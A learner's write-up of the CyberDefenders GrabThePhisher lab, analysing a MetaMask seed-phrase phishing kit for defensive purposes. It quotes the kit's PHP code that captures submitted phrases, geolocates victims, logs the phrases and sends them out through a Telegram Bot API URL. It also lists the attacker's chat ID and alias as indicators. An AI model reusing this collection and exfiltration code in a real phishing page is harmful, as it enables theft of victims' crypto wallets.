





# GrabThePhisher (CyberDefenders Threat Intelligence / Phishing Kit Analysis Lab)

_A hands-on investigation of a cryptocurrency phishing kit, seed-phrase collection, victim information gathering, Telegram exfiltration, and attacker artifacts._

---

## Table of Contents

- [Project Summary](#project-summary)
- [Incident Overview](#incident-overview)
- [Skills Demonstrated](#skills-demonstrated)
- [Investigation Process](#investigation-process)
  - [Stage 1: Identify the Targeted Wallet](#stage-1-identify-the-targeted-wallet)
  - [Stage 2: Identify the Phishing Kit File](#stage-2-identify-the-phishing-kit-file)
  - [Stage 3: Identify the Programming Language](#stage-3-identify-the-programming-language)
  - [Stage 4: Identify the Victim Information Service](#stage-4-identify-the-victim-information-service)
  - [Stage 5: Count the Collected Seed Phrases](#stage-5-count-the-collected-seed-phrases)
  - [Stage 6: Identify the Most Recent Seed Phrase](#stage-6-identify-the-most-recent-seed-phrase)
  - [Stage 7: Identify the Exfiltration Medium](#stage-7-identify-the-exfiltration-medium)
  - [Stage 8: Identify the Telegram Bot Token](#stage-8-identify-the-telegram-bot-token)
  - [Stage 9: Identify the Telegram Chat ID](#stage-9-identify-the-telegram-chat-id)
  - [Stage 10: Identify the Developer Alias](#stage-10-identify-the-developer-alias)
- [Attack Timeline](#attack-timeline)
- [Key Findings](#key-findings)
- [Indicators and Investigation Artifacts](#indicators-and-investigation-artifacts)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Remediation Recommendations](#remediation-recommendations)
- [Lessons Learned](#lessons-learned)
- [What I Would Improve Next Time](#what-i-would-improve-next-time)
- [References](#references)

---

## Project Summary

> **What is this project?**
>
> I completed the CyberDefenders **GrabThePhisher** lab, a threat-intelligence challenge based on a cryptocurrency phishing kit. The kit was made to collect a victim's wallet seed phrase and send the stolen information to the attacker.

For this lab, I mainly inspected the files that came with the phishing kit instead of using Wireshark or a SIEM. The most important file was a PHP script called `metamask.php`. I followed the code to see what information it collected, where it stored the seed phrases, and how it sent the stolen data to Telegram.

I had not worked with PHP much before this lab, so at first some of the code was unfamiliar. I did not try to understand every line. Instead, I focused on the input, important variables, URLs, and where the data was being written or sent. When I got stuck, I used documentation and hints to understand unfamiliar PHP syntax and continue the investigation.

---

## Incident Overview

The phishing kit was designed to ask victims for a MetaMask recovery seed phrase. When a victim submitted the form, the PHP code took the entered phrase and added it to a message along with the victim's IP address, country, city, and browser User-Agent.

The script used the victim's IP address with the Sypex Geo API to get location information. It then sent the collected information through the Telegram Bot API to a Telegram chat controlled by the phisher.

The seed phrase was also written to a local log file. The provided `log.txt` already contained three entries, showing that the kit had collected three seed phrases in the lab data.

The high-level flow was:

```text
Victim visits phishing page
        ↓
MetaMask seed phrase is requested
        ↓
Victim submits the phrase
        ↓
metamask.php processes the input
        ↓
Victim IP is checked with Sypex Geo
        ↓
Message is built with phrase + victim information
        ↓
        ├── Saved to log/log.txt
        │
        └── Sent through Telegram Bot API
                         ↓
                  Phisher's Telegram chat
```

---

## Skills Demonstrated

- Reviewing a phishing-kit folder and identifying important files
- Reading basic PHP without needing to fully know the language
- Following user input through source code
- Recognizing `$_POST` data from a submitted web form
- Identifying an external IP geolocation API
- Recognizing data being written to a local log file
- Identifying Telegram Bot API usage
- Extracting useful attacker artifacts from source code
- Connecting source-code behavior with data found in a log file
- Building a simple attack flow from the evidence
- Practicing safe handling of seed phrases and API tokens in a public write-up

---

## Investigation Process

### Stage 1: Identify the Targeted Wallet

- **Objective:** Determine which wallet the phishing page was pretending to use when asking for a seed phrase.
- **Actions:**
  - Opened the PHP file and looked for readable text related to the wallet and phrase.
  - Found the wallet name inside the message created by the script.
- **Evidence:**

```php
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
```

The script labels the submitted phrase as belonging to MetaMask.

- **Result:**

```text
MetaMask
```

> 

---

### Stage 2: Identify the Phishing Kit File

- **Objective:** Find the file that contains the main phishing-kit logic.
- **Actions:**
  - Reviewed the files included with the lab.
  - Opened the PHP file and found code for collecting the phrase, getting victim information, sending data to Telegram, and writing to a log.
- **Evidence:**

```text
metamask.php
```

The file contained most of the important behavior I needed for the investigation.

- **Result:**

```text
metamask.php
```

> 

---

### Stage 3: Identify the Programming Language

- **Objective:** Determine which programming language was used for the phishing kit.
- **Actions:**
  - Checked the file extension.
  - Looked at the opening PHP tag and syntax used in the file.
- **Evidence:**

```php
<?php

$request = file_get_contents(...);
$geo = $array->country->name_en;
```

The `.php` extension, `<?php` opening tag, variables beginning with `$`, and PHP functions identified the language.

- **Result:**

```text
PHP
```


 
---

### Stage 4: Identify the Victim Information Service

- **Objective:** Find the external service used to retrieve information about the victim.
- **Actions:**
  - Looked for URLs inside `metamask.php`.
  - Found a request that included the victim's remote IP address.
  - Followed the returned values to see what the script used from the response.
- **Evidence:**

```php
$request = file_get_contents(
    "http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']
);

$geo = $array->country->name_en;
$city = $array->city->name_en;
```

From this, I could see that the script sent the victim's IP address to Sypex Geo and used the returned country and city information.

- **Result:**

```text
Sypex Geo
```

> 

---

### Stage 5: Count the Collected Seed Phrases

- **Objective:** Determine how many seed phrases had already been collected.
- **Actions:**
  - Followed the part of the PHP code that writes submitted data to a local file.
  - Found that the destination was `log/log.txt`.
  - Opened `log.txt` and counted the entries.
- **Evidence:**

```php
$text = $_POST['data']."\n";

@file_put_contents(
    $_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt',
    $text,
    FILE_APPEND
);
```

The log file contained three lines. Each line was a separate 12-word seed phrase.

- **Result:**

```text
3 seed phrases
```


---

### Stage 6: Identify the Most Recent Seed Phrase

- **Objective:** Determine which entry in the log was the most recently collected seed phrase.
- **Actions:**
  - Checked how the PHP script writes data to the log.
  - Noticed the use of `FILE_APPEND`, which adds new submitted data to the end of the existing file.
  - Used the ordering of the three lines to determine that the third entry was the newest.
- **Evidence:**

```php
file_put_contents(..., $text, FILE_APPEND);
```

```text
Line 1 → older entry
Line 2 → newer entry
Line 3 → most recent entry
```

- **Result:**

```text
The third seed phrase in log.txt
[REDACTED IN PUBLIC WRITE-UP]
```

I did not include the full seed phrase in this public report because recovery phrases should be treated like sensitive credentials, even when they come from a training lab.


---

### Stage 7: Identify the Exfiltration Medium

- **Objective:** Determine which platform was used to send the collected victim information to the phisher.
- **Actions:**
  - Followed the function called after the message was created.
  - Found a URL pointing to the Telegram Bot API.
- **Evidence:**

```php
sendTel($message);

$filename =
    "https://api.telegram.org/bot".$token.
    "/sendMessage?chat_id=".$id.
    "&text=".urlencode($message).
    "&parse_mode=html";
```

The collected information was sent using Telegram.

The lab question describes this as a credential-dumping medium, but the behavior I observed is closer to credential or seed-phrase exfiltration because the data is being sent to the attacker after it is collected.

- **Result:**

```text
Telegram
```

> 

---

### Stage 8: Identify the Telegram Bot Token

- **Objective:** Find the token used by the phishing kit to authenticate to the Telegram Bot API.
- **Actions:**
  - Inspected the `sendTel()` function.
  - Found the `$token` variable.
  - Confirmed that the variable was inserted into the Telegram Bot API URL.
- **Evidence:**

```php
$token = "5457463144:AA***************xm10";

$filename =
    "https://api.telegram.org/bot".$token."/sendMessage?...";
```

- **Result:**

```text
Telegram bot token identified
5457463144:AA***************xm10
```

I intentionally redacted the full token from the portfolio version. Publishing working API tokens or credentials is a bad habit, even if the value came from a lab.


---

### Stage 9: Identify the Telegram Chat ID

- **Objective:** Find the Telegram chat ID where the stolen information was sent.
- **Actions:**
  - Looked at the variables inside `sendTel()`.
  - Followed the `$id` variable into the `chat_id` parameter in the Telegram request.
- **Evidence:**

```php
$id = "5442785564";

sendMessage?chat_id=".$id."
```

- **Result:**

```text
5442785564
```


---

### Stage 10: Identify the Developer Alias

- **Objective:** Find an alias or handle associated with the phishing-kit developer.
- **Actions:**
  - Reviewed the comments in the PHP source code.
  - Found a sign-off left by the developer.
- **Evidence:**

```text
Regards,
j1j1b1s@m3r0
```

- **Result:**

```text
j1j1b1s@m3r0
```

>  

---

## Attack Timeline

| Stage | Activity | Evidence |
|---|---|---|
| Phishing setup | A fake wallet-related page asks for a MetaMask seed phrase | Wallet name and phrase field referenced in `metamask.php` |
| Input collection | Victim-submitted phrase is received by the PHP script | `$_POST["data"]` |
| Victim profiling | Victim IP is sent to a geolocation service | Request to `api.sypexgeo.net` |
| Location lookup | Country and city are pulled from the API response | `$array->country->name_en` and `$array->city->name_en` |
| Message creation | Phrase, IP, location, and User-Agent are combined | `$message` variable |
| Local collection | The submitted phrase is appended to a log file | `file_put_contents(... FILE_APPEND)` |
| Exfiltration | The message is sent through the Telegram Bot API | `api.telegram.org/bot.../sendMessage` |
| Attacker delivery | Telegram sends the message to the configured chat | `chat_id=5442785564` |

---

## Key Findings

| Finding | Value |
|---|---|
| Wallet used by the phishing kit | MetaMask |
| Main phishing-kit file | `metamask.php` |
| Programming language | PHP |
| Victim information service | Sypex Geo |
| Collected seed phrases | 3 |
| Most recent seed phrase | Third entry in `log.txt` — redacted |
| Exfiltration medium | Telegram |
| Telegram bot token | Identified — redacted |
| Telegram chat ID | `5442785564` |
| Developer alias | `j1j1b1s@m3r0` |
| Local collection file | `log/log.txt` |

---

## Indicators and Investigation Artifacts

Public-safe artifacts from the lab:

```text
metamask.php
log/log.txt
api.sypexgeo.net
api.telegram.org
5442785564
j1j1b1s@m3r0
```

Sensitive values intentionally not published:

```text
Full seed phrases
Full Telegram bot token
```

Files, services, and code elements important to the investigation:

| Artifact | Relevance |
|---|---|
| `metamask.php` | Main PHP file containing the collection and exfiltration logic |
| `$_POST["data"]` | Victim-submitted seed-phrase input |
| `$_SERVER['REMOTE_ADDR']` | Victim IP address seen by the web server |
| Sypex Geo API | Used to retrieve country and city information from the victim IP |
| `$_SERVER['HTTP_USER_AGENT']` | Captures browser/client information |
| `log/log.txt` | Stores submitted seed phrases locally |
| `FILE_APPEND` | Adds each newly collected phrase to the end of the log |
| Telegram Bot API | Sends collected information to the phisher |
| Telegram chat ID | Identifies the destination chat for the bot message |
| Developer comment | Contains the alias `j1j1b1s@m3r0` |

---

## MITRE ATT&CK Mapping

I kept the mapping small and only included techniques that matched behavior I could see in the kit.

| Technique | Relevance |
|---|---|
| **T1056.003 – Input Capture: Web Portal Capture** | The phishing page collects a recovery phrase entered by the victim into a web form. |
| **T1567 – Exfiltration Over Web Service** | The collected data is sent to the attacker through the Telegram Bot API, a legitimate external web service. |

> **Analyst note:** The lab is clearly a phishing scenario, but the files I inspected mainly showed the collection and exfiltration parts. I did not try to map every stage of a full phishing campaign when the evidence was not included in the files.

---

## Remediation Recommendations

- Train users to never enter a wallet seed phrase into links or pages reached through unexpected messages.
- Block or investigate known phishing domains and URLs when they are identified.
- Monitor web and proxy logs for suspicious requests to services being abused for exfiltration.
- Investigate unexpected server-side connections to APIs such as Telegram when they do not match normal business use.
- Revoke exposed API or bot tokens and replace them with new values.

---

## Lessons Learned

- Following the data was more useful than trying to understand every PHP line.
- `$_POST` can show where submitted form data enters a PHP script.
- `$_SERVER['REMOTE_ADDR']` can be used to get the IP address of the client connecting to the server.
- An unfamiliar domain can still be understood by looking at what data is sent to it and what fields are used from the response.
- `FILE_APPEND` helped explain why the last line in the log was the most recent collected seed phrase.
- A Telegram bot token and a Telegram chat ID have different purposes: the token authenticates the bot, while the chat ID tells Telegram where to send the message.

---

## What I Would Improve Next Time

- Start by mapping the folder structure before opening files randomly.
- Search suspicious source files for useful words such as `POST`, `token`, `chat_id`, `telegram`, `seed`, `wallet`, and `log`.
- Get more comfortable reading basic PHP so I can identify important code faster.
- Write down a simple data flow while investigating: where the data comes from, what happens to it, and where it goes.

---

## References

- [CyberDefenders GrabThePhisher Lab](https://cyberdefenders.org/blueteam-ctf-challenges/grabthephisher/)
- [MITRE ATT&CK - T1056.003 Input Capture: Web Portal Capture](https://attack.mitre.org/techniques/T1056/003/)
- [MITRE ATT&CK - T1567 Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567/)
